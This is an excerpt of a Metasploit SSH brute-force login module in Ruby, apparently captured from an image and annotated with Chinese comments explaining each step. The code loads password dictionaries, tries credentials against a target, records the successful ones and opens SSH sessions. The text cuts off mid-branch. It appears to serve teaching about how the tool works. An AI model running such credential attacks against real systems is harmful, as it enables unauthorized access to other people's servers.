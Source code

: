 ```
# 配置攻击会话
  def session_setup(result, ssh_socket)
  	...
  end

# 执行攻击
  def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => "Starting bruteforce"

    # 提取配置的字典文件等参数，用来进行暴力破解的用户名和密码信息
    cred_collection = Metasploit::Framework::CredentialCollection.new(
      blank_passwords: datastore['BLANK_PASSWORDS'],
      pass_file: datastore['PASS_FILE'],
      password: datastore['PASSWORD'],
      user_file: datastore['USER_FILE'],
      userpass_file: datastore['USERPASS_FILE'],
      username: datastore['USERNAME'],
      user_as_pass: datastore['USER_AS_PASS'],
    )

    cred_collection = prepend_db_passwords(cred_collection)

    # 创建 scanner 对象，Scanner 对象将用作控制循环尝试连接的暴力破解过程
    scanner = Metasploit::Framework::LoginScanner::SSH.new(
      host: ip,
      port: rport,
      cred_details: cred_collection,
      proxies: datastore['Proxies'],
      stop_on_success: datastore['STOP_ON_SUCCESS'],
      bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
      connection_timeout: datastore['SSH_TIMEOUT'],
      framework: framework,
      framework_module: self,
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

	# 进入攻击程序的主循环，有多个判断，主循环中会遍历所有的可能的用户名及密码（来自先前设置的字典文件参数）
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      # 判断返回值的各种情况
      case result.status
      
      # 如果用户名及密码匹配成功，则打印成功信息，并调用 session_setup 建立 SSH 连接，然后继续循环
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)
        session_setup(result, scanner.ssh_socket)
        :next_user
      
      # 如果目标服务器无法连接，则关闭连接接口，直接退出程序
      when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Could not connect: #{result.proof}"
        end
```